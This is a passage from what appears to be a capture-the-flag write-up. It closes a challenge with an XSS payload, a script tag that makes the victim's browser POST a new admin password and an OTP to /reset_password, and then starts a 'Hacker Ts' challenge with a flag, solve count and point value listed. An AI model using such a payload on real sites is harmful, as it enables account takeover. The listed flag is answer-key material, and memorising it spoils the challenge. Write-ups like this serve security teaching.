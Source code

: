 Now all I needed to do was reset the admin's password and login. Using the OTP password I could do this by using the following payload which will change the `admin` password to `getyaaccounttakenoverlol`.

```html
<script>fetch("/reset_password",{method:'post',headers:{'Content-Type':'application/json'},body:JSON.stringify({"password":"getyaaccounttakenoverlol","password2":"getyaaccounttakenoverlol","otp":"<PUT OTP HERE>"})});</script>
```

After waiting until the payload has been executed, I was able to login to the `admin` account and view the secret flag!

![](images/twoforone_adminnoice.png)

---

## Hacker Ts

| Flag | Solves | Point Value | 
|----------------- | ------------ | -------- |
| flag{461e2452088eb397b6138a5934af6231} | 127 | 422 |

This challenge is about a pretty cool Hacker t-shirt page where you can make your own custom t-shirt with a bash command on it. Bummer they aren't selling any shirts...
